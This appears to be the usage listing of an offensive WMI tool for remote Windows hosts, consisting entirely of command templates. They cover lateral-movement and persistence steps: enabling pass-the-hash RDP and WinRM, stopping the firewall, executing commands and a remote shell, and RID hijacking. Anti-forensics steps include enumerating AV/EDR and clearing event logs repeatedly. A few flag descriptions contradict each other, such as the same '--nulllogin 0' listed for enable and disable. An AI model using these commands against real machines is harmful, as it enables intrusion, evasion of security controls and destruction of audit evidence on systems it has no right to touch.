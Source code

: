 ```text
Usage:
python wmi_query -i <target> -u <username> -p <password> -g #Get Process List
python wmi_query -i <target> -u <username> -p <password> -g -q #query Av/EDR/Process
python wmi_query -i <target> -u <username> -p <password> -U #User Query
python wmi_query -i <target> -u <username> -p <password> -R 1 #Enable rdp
python wmi_query -i <target> -u <username> -p <password> -R 0 #Disable rdp
python wmi_query -i <target> -u <username> -p <password> -R 2 #Query rdp Port
python wmi_query -i <target> -u <username> -p <password> -E 1 #Enable PTH rdp
python wmi_query -i <target> -u <username> -p <password> -E 0 #Disable PTH rdp
python wmi_query -i <target> -u <username> -p <password> -W 1 #Enable winrm service
python wmi_query -i <target> -u <username> -p <password> -F query # query all Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query1 #query Enable Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query2 #query Disable Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F querya #query inbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F queryb #query outbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query1a #query Enable inbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query2a #query Disable inbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query1b #query Enable outbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query2b #query Disable outbound Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F query3 #query InstanceID Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F delete #delete InstanceID Firewall rule
python wmi_query -i <target> -u <username> -p <password> -F disable #Disable a firewall rule
python wmi_query -i <target> -u <username> -p <password> -F enable #Enable a firewall rule
python wmi_query -i <target> -u <username> -p <password> -f query #query Firewall
python wmi_query -i <target> -u <username> -p <password> -f stop #stop Firewall
python wmi_query -i <target> -u <username> -p <password> -F start #start Firewall
python wmi_query -i <target> -u <username> -p <password> -V <vbs_path> #(vbs_id:Example) Run Vbs (The vbs is run repeatedly at intervals of 2 seconds, and the --stop_vbs parameter must be used to stop)
python wmi_query -i <target> -u <username> -p <password> --stop_vbs <vbs_id>/--stop_vbs 1 #-- stop 1 stop default(vbsid:Example) vbs running on repeat/stop use --stop <uuid>
python wmi_query -i <target> -u <username> -p <password> --one_vbs <vbs_path> #vbs that only runs once
python wmi_query -i <target> -u <username> -p <password> --execute_command <command> #To execute the command through Win32_ScheduledJob (NT 6.0), you need to wait for 1 minute
python wmi_query -i <target> -u <username> -p <password> --clear_eventlog #cear eventlog logName:appllication,system,setup,forwardedevents,security
python wmi_query -i <target> -u <username> -p <password> --clear_eventlog --cycle_clear# This will execute clear EventLog vbs forever(To stop use --stop <uuid>)
python wmi_query -i <target> -u <username> -p <password> --execute_command2 <command> #execute command
python wmi_query -i <target> -u <username> -p <password> --shell #Command execution mode 2 to get a fake shell
python wmi_query -i <target> -u <username> -p <password> --writefile <file_path> --save-to-file <save_file_path># remote file writing
python wmi_query -i <target> -u <username> -p <password> --readfile <target_file_path> --save-to-file <save_file_path># remote file reading
python wmi_query -i <target> -u <username> -p <password> --ls <target_file_path> #Query files and folders of a certain path
python wmi_query -i <target> -u <username> -p <password> --rdp-shadow <shadow_id> #Rdp Shadow Setting
python wmi_query -i <target> -u <username> -p <password> --nulllogin 0 #Enable null password login
python wmi_query -i <target> -u <username> -p <password> --nulllogin 0 #Disable null password login
python wmi_query -i <target> -u <username> -p <password> --user-rid-query #Users RID Query
python wmi_query -i <target> -u <username> -p <password> --ridhijack 1f5(src_id),1f4(target_rid) #Rid Hijack Example
python wmi_query -i <target> -u <username> -p <password> --set-user <rid>,0 #Disable User
python wmi_query -i <target> -u <username> -p <password> --set-user <rid>,1 #Enable User
```
